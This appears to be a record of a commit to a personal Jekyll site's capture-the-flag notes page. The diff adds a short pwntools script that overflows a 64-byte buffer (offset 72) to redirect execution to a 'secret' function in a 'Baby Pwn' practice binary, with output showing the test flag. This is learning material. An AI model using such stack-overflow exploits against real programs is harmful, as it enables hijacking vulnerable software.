

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 29645 px. Shown: the top 874 px of the window, without its empty margins (0-1055 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 30149 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -1223,3 +1223,19 @@ void vulnerable_function()
 ```
 
 offset = 64 bytes for the buffer + 8 bytes for the saved RBP = 72
+
+```python
+[~/t]
+$ cat payload.py
+from pwn import p64
+import sys
+payload = b'A'*72 + p64(0x401166)
+sys.stdout.buffer.write(payload)
+
+[~/t]
+$ p payload.py | ./baby-pwn
+Welcome to the Baby Pwn challenge!
+Address of secret: 0x401166
+Enter some text: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAf@
+Congratulations! Here is your flag: testflag
+```
````
